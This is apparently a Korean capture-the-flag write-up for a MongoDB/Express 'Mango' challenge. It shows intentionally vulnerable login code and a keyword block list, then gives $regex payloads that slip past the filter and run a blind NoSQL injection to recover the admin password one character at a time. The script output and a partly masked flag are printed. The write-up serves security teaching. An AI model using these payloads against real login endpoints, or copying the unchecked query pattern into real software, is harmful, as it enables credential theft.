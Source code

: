 # NoSQL-Injection
SQL Injection과 매우 유사한 방식이고, 두 공격 모두 이용자의 입력값이 쿼리에 포함되면서 발생하는 문제점이다. MongoDB의 NoSQL Injection 취약점은 주로 이용자의 입력값에 대한 타입 검증이 불충분할 때 발생한다

# Mango(Exercies)
admin의 계정 비밀번호가 flag 값이다. 아래는 express 프레임워크로 실행 중인 문제 코드이다.

```javascript
const express = require('express');
const app = express();

const mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/main', { useNewUrlParser: true, useUnifiedTopology: true });
const db = mongoose.connection;

// filter 함수 ==============================
// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];

filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}
// ================================================

app.get('/login', function(req, res) {
    if(filter(req.query)){  // filter  함수가 실행된다
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query;

    db.collection('user').findOne({ // db에서 uid, upw 검색
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
});

app.get('/', function(req, res) {
    res.send('/login?uid=guest&upw=guest');
});

app.listen(8000, '0.0.0.0');

```
1. `/login` 페이지 요청시에서는 이용자가 쿼리로 전달한 uid, upw로 데이터에비스를 검색하고 찾아낸 이용자의 정보를 반환한다
2.  filter 함수는 일부 문자열을 필터링하는 함수이다. 필터링 함수는 admin, dh, admi 라는 문자열이 있을 때 true를 반환한다
3. 코드에서 db에서 uid,upw 검색하는 부분을 보면 쿼리 변수의 타입을 검사하지 않는다. 이로 인해서 타입이 string 뿐만아니라 object 타입도 쿼리가 가능하기 때문에 NoSQL Injection 공격이 가능해진다.

# 익스플로잇
`/login?uid=guest&upw=guest`을 입력하면 이용자의 uid만 출력된다. flag 를 얻기 위해선 upw를 획득해야하기 때문에 다음과 같은 방법으로 익스플로잇한다
1. Blind NoSQL Injection Payload 생성
`$regex` 연산을 사용하여 정규표현식을 이용해 데이터를 검색한다.
```
/login?uid=guest&upw[$regex]=.*

guest
```
만약 upw가 일치하는 경우 uid를, 아닌경우 undefined 문자열이 출력되는 것을 통해 참과 거짓을 확인 할 수 있다

2. filter 우회
filter 함수는 admin, dh, admi 문자열을 필터링하지만 정규표현식에서 임의 문자를 표현하는 `.`을 이용하여 쉽게 우회한다
```bash
/login?uid[$regex]=ad.in&upw[$regex]=D.{*

admin
```

3. Exploit Code 작성
이제는 한글자씩 알아내야하므로, 여러번 쿼리를 전달해야하는데 이를 자동화하는 스크립트 코드를 작성하여 실행한다.
스크립트 코드는 github에 따로 올립니다.

# kali linux 에서 코드 작성 후 실행
```
└─$ python3 nosql.py 
FLAG: DH{8}
FLAG: DH{89}
FLAG: DH{89e}
FLAG: DH{89e5}
FLAG: DH{89e50}
FLAG: DH{89e50f}
FLAG: DH{89e50fa}
FLAG: DH{89e50fa6}
FLAG: DH{89e50fa6f}
FLAG: DH{89e50fa6fa}
FLAG: DH{89e50fa6faf}
FLAG: DH{89e50fa6fafe}
FLAG: DH{89e50fa6fafe2}
FLAG: DH{89e50fa6fafe26}
FLAG: DH{89e50fa6fafe260}
FLAG: DH{89e50fa6fafe2604}
FLAG: DH{89e50fa6fafe2604e}
FLAG: DH{89e50fa6fafe2604e3}
FLAG: DH{89e50fa6fafe2604e33}
FLAG: DH{89e50fa6fafe2604e33c}
FLAG: DH{89e50fa6fafe2604e33c0}
FLAG: DH{89e50fa6fafe2604e33c0b}
FLAG: DH{89e50fa6fafe2604e33c0ba}
FLAG: DH{89e50fa6fafe2604e33c0ba0}
FLAG: DH{89e50fa6fafe2604e33c0ba05}
FLAG: DH{89e50fa6fafe2604e33c0ba058}
FLAG: DH{89e50fa6fafe2604e33c0ba0584}
FLAG: DH{89e50fa6fafe2604e33c0ba05843}
FLAG: DH{flag                         }
FLAG: DH{flag                          }
FLAG: DH{flag                           }
FLAG: DH{flag 가리기~~~!!!!!!!!!!!!!!!!!!}
```
위와 같이 코드를 작성하여 실행 시키면 flag 값을 획득 할 수 있다.


